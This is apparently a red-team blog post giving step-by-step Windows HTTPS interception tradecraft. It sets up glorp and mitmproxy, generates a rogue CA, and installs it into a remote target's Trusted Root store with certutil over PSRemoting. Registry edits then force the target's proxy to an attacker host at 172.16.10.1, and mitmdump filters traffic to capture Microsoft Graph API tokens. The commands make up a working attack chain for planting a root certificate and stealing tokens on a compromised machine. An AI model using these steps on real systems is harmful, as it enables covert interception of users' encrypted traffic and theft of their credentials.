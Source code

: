 ```yaml
---
title: A Practical Approach to Windows HTTPS Interception for Engagements
date: 2022-10-21 09:48:47 +07:00
categories: RedTeaming
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
description: Windows HTTPS Interception
#thumbnail: "https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/redteaming/Paces_Review/lab.png"
#image: "https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/redteaming/Paces_Review/lab.png"
---
```


# HTTPS sniffing on local target

## Execution with glorp setup on local target

[Glorp](https://github.com/denandz/glorp) is an intercepting proxy with functionality similar to Burp Suites proxy and repeater tabs, this makes it ideal for HTTPS sniffing / inspection. 

This tool is fully CLI based and dosen't require any additional dependencies like python3 on Windows to function.

Begin by downloading the precompiled windows binary from: https://github.com/denandz/glorp/releases

```
PS C:\Tools> wget https://github.com/denandz/glorp/releases/download/v0.1.5/glorp-v0.1.5-windows-amd64 -o glorp.exe
```

Next on Windows / WSL generate a CA certificate pair as follows:

```
m3rcer@GHOUL:/mnt/c/Tools$ openssl genrsa -out ca.key 2048
m3rcer@GHOUL:/mnt/c/Tools$ openssl req -x509 -new -nodes -key ca.key -sha256 -days 1825 -out ca.crt -subj '/CN=GlorpCA'
```

In Chrome, go to the `Settings` tab --> `Privacy and Security` --> `Manage device certificates` --> select the `Trusted Root Certification Authorities` tab.

![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/refs/heads/master/_posts/redteaming/HTTPS_Interception/Images/Pasted%20image%2020230920141925.png)

Select `Import` and import `ca.crt` into the `Trusted Root Certification Authorities` store. 

![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/refs/heads/master/_posts/redteaming/HTTPS_Interception/Images/Pasted%20image%2020230920141956.png)

Select `Yes` when prompted.

![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/refs/heads/master/_posts/redteaming/HTTPS_Interception/Images/Pasted%20image%2020230920142042.png)

![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/refs/heads/master/_posts/redteaming/HTTPS_Interception/Images/Pasted%20image%2020230920142135.png)

Now search `Proxy Settings` in the Windows search bar and add the following Manual Proxy setup and select `Save`:

![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/refs/heads/master/_posts/redteaming/HTTPS_Interception/Images/Pasted%20image%2020230920142355.png)

Finally, in an elevated cmd / powershell prompt start glorp with the trusted CA certificate and key.

```
PS C:\Tools> .\glorp.exe -cert ca.crt -key ca.key
```

![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/refs/heads/master/_posts/redteaming/HTTPS_Interception/Images/Pasted%20image%2020230920142619.png)

Back on Chrome navigate to https://login.microsoftonline.com/ or the https site you would like to sniff/intercept.

![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/refs/heads/master/_posts/redteaming/HTTPS_Interception/Images/Pasted%20image%2020230920143148.png)

To understand various possible operations to proxy, replay or save output as .json read the UI Usage at: https://github.com/denandz/glorp#ui-usage

<div style="page-break-after: always;"></div>

---------

# HTTPS Sniffing using shell or PSRemote acess

## Execution with glorp setup on remote target

Executing glorp in a PSremoting or winrs session spawns glorp but output cannot be seen nor written unless source is modified. However, we can execute glorp locally and have the target connect to our local proxy if network connectivity / port forwarding is possible .

This setup is showcased using the example:

Attacker: `(172.16.10.1)`
Target: `(172.16.100.11)`
`administrator` is a local admin on `172.16.100.11`

Begin by setting up Glorp with the `ca.key` can `ca.crt` files on the attacker machine - `cb-ca`:

```
C:\Tools> .\glorp.exe -cert ca.crt -key ca.key -addr 172.16.10.1 -port 8080
```

Now the only requirement on the target - `cb-ws11` is the installation of `ca.crt` in the `Trusted Root Certification Authorities` store.  This can be done remotely with PSremoting using certutil.

```
PS C:\Users\Administrator.CB-CA> $session = New-PSSession -cn cb-ws11.certbulk.cb.corp

PS C:\Users\Administrator.CB-CA> Copy-Item C:\Tools\ca.crt -Destination C:\ -ToSession $session

PS C:\Users\Administrator.CB-CA> Enter-PSSession -Session $session

[cb-ws11.certbulk.cb.corp]: PS C:\> certutil -addstore Root C:\ca.crt
Root "Trusted Root Certification Authorities"
Signature matches Public Key
Certificate "GlorpCA" added to store.
CertUtil: -addstore command completed successfully.
```

Now forcefully set the `Proxy Settings`  to use our glorp proxy ( `172.16.10.1:8080`) hosted at `cb-ca` using PowerShell or other netsh equivalents. This adds the settings for the current logged in user.

*NOTE: Check firewall rules to unblock the proxy port.*

```
[cb-ws11.certbulk.cb.corp]: PS C:\> reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Internet Settings" /v ProxyEnable /t REG_DWORD /d 1 /f

[cb-ws11.certbulk.cb.corp]: PS C:\> reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Internet Settings" /v ProxyServer /t REG_SZ /d "172.16.10.1:8080" /f

```

To disable it you can use this PowerShell command:

```
Set-ItemProperty -Path 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Internet Settings' -Name ProxyEnable -Value 0
```

Now when `cb\administrator` on `cb-ws` navigates to a site using a browser like Chrome, it would be proxied to `cb-ca` where glorp intercepts and forwards the traffic to the respective site.

Some ways to add it for all users are outlined here: https://stackoverflow.com/questions/16221250/add-a-key-to-hkey-current-user-for-all-users

## Complete remote execution using mitmproxy

A similar tools exists called mitmproxy, download compiled binaries from: https://mitmproxy.org/downloads/#10.0.0/

Documentation: https://docs.mitmproxy.org/

mitmproxy is packaged with 3 tools for various functionality:
- mitmproxy: UI based proxy similar to glorp as above (not applicable for PSRemoting)
- mitmweb: spawns a web based UI which can be used to view remotely if we have network access
- mitmdump: a full CLI without UI

Download compiled binaries (only mitmdump is required) from: https://mitmproxy.org/downloads/#10.0.0/

To install the CA certificate, execute mitmdump once as follows and visit mitm.it to download the Windows .p12 CA certificate.

```
PS C:\Tools\mitmproxy-10.0.0-windows> .\mitmdump.exe
```

![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/refs/heads/master/_posts/redteaming/HTTPS_Interception/Images/Pasted%20image%2020230921170326.png)

Next, double click the download .p12 certificate to install it in the `Trusted Root Certification Authorities` store. 

![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/refs/heads/master/_posts/redteaming/HTTPS_Interception/Images/Pasted%20image%2020230921170539.png)

![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/refs/heads/master/_posts/redteaming/HTTPS_Interception/Images/Pasted%20image%2020230921170605.png)

Select `Yes` when prompted.

![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/refs/heads/master/_posts/redteaming/HTTPS_Interception/Images/Pasted%20image%2020230921170711.png)

Finally, create a PSRemote session as in objective and transfer tools and execute the following command remotely to intercept the GraphAPIToken (we use regex filters to only look for `graph.microsoft.com`):

```
[WIN-JH5F00D8313.nerd.corp]: PS C:\Tools\mitmproxy-10.0.0-windows> .\mitmdump.exe -w content.log --flow-detail 2 graph\.microsoft\.com
```

It is possible to view the content in real time as above or analyse the written output using the following command:

```
[cb-ca.cb.corp]: PS C:\Tools\mitmproxy-10.0.0-windows> .\mitmdump.exe -r content.log --flow-detail 2
```